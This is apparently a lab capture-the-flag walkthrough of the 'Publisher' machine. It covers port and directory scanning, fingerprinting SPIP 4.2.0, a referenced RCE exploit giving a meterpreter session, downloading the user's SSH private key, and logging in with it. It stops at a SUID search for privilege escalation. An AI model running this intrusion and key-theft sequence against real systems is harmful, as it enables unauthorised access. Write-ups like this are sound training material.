

# Publisher

Test your enumeration skills on this boot-to-root machine.

## Port scanning

```bash
export IP=10.10.144.234

rustscan -a $IP
```
```bash

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/martian/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.10.235:22
Open 10.10.10.235:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 16:00 +04
Initiating Ping Scan at 16:00
Scanning 10.10.10.235 [2 ports]
Completed Ping Scan at 16:00, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:00
Completed Parallel DNS resolution of 1 host. at 16:00, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 16:00
Scanning 10.10.10.235 [2 ports]
Discovered open port 22/tcp on 10.10.10.235
Discovered open port 80/tcp on 10.10.10.235
Completed Connect Scan at 16:00, 0.10s elapsed (2 total ports)
Nmap scan report for 10.10.10.235
Host is up, received conn-refused (0.095s latency).
Scanned at 2024-07-04 16:00:13 +04 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds
```

## Port 80

### ffuf

***ffuf gives us the directory named "spip"***
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -u http://$IP/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.235/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

# on atleast 2 different hosts [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 203ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 204ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 204ms]
#                       [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 204ms]
# directory-list-lowercase-2.3-medium.txt [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 204ms]
#                       [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 204ms]
# Priority ordered case insensative list, where entries were found  [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 1979ms]
                        [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 2985ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 3989ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 5004ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 5004ms]
#                       [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 5004ms]
#                       [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 5004ms]
# Copyright 2007 James Fisher [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 5007ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 5007ms]
spip                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 97ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

### whatweb
***with whatweb we can get the version of spip, which is "SPIP 4.2.0"***
```bash
whatweb http://$IP/spip
http://10.10.10.235/spip [301 Moved Permanently] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.235], RedirectLocation[http://10.10.10.235/spip/], Title[301 Moved Permanently]
http://10.10.10.235/spip/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.235], MetaGenerator[SPIP 4.2.0], SPIP[4.2.0][http://10.10.10.235/spip/local/config.txt], Script[text/javascript], Title[Publisher], UncommonHeaders[composed-by,link,x-spip-cache]
```

**There is a know RCE vulnerability in this version of SPIP.**



Setting the options and running the exploit gives us a meterpreter session. And we get the user flag.

```bash
meterpreter > ls
Listing: /home/think
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2024-07-04 15:57:03 +0400  .bash_history
100644/rw-r--r--  220   fil   2023-11-14 12:57:26 +0400  .bash_logout
100644/rw-r--r--  3771  fil   2023-11-14 12:57:26 +0400  .bashrc
040700/rwx------  4096  dir   2023-11-14 12:57:24 +0400  .cache
040700/rwx------  4096  dir   2023-12-08 17:07:22 +0400  .config
040700/rwx------  4096  dir   2024-02-11 01:22:33 +0400  .gnupg
040775/rwxrwxr-x  4096  dir   2024-01-10 16:46:09 +0400  .local
100644/rw-r--r--  807   fil   2023-11-14 12:57:24 +0400  .profile
020666/rw-rw-rw-  0     cha   2024-07-04 15:57:03 +0400  .python_history
040755/rwxr-xr-x  4096  dir   2024-01-10 16:54:17 +0400  .ssh
020666/rw-rw-rw-  0     cha   2024-07-04 15:57:03 +0400  .viminfo
040750/rwxr-x---  4096  dir   2023-12-20 23:05:25 +0400  spip
100644/rw-r--r--  35    fil   2024-02-11 01:20:39 +0400  user.txt

meterpreter > cat user.txt
FAKE{SDFHGSFDHDFGHFGDHDFGHF}  
meterpreter > 
```

There is also a "id_rsa" private key.

```bash
meterpreter > ls
Listing: /home/think/.ssh
=========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  569   fil   2024-01-10 16:54:17 +0400  authorized_keys
100644/rw-r--r--  2602  fil   2024-01-10 16:48:14 +0400  id_rsa
100644/rw-r--r--  569   fil   2024-01-10 16:48:14 +0400  id_rsa.pub


meterpreter > download id_rsa
```


## Port 22

```bash
chmod 600 id_rsa 
```
```bash
ssh -i id_rsa think@$IP
The authenticity of host '10.10.10.235 (10.10.10.235)' can't be established.
ED25519 key fingerprint is SHA256:Ndgax/DOZA6JS00F3afY6VbwjVhV2fg5OAMP9TqPAOs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.235' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-169-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 04 Jul 2024 12:51:42 PM UTC

  System load:                      0.08
  Usage of /:                       75.8% of 9.75GB
  Memory usage:                     16%
  Swap usage:                       0%
  Processes:                        136
  Users logged in:                  0
  IPv4 address for br-72fdb218889f: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.235


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Feb 12 20:24:07 2024 from 192.168.1.13
think@publisher:~$ 
```

## Privilege Escalation

When checking for SUID bits "run_container" binary stands out and catches our attention.

```bash
think@publisher:~$ find / -perm /4000 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/sbin/run_container
/usr/bin/at
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
```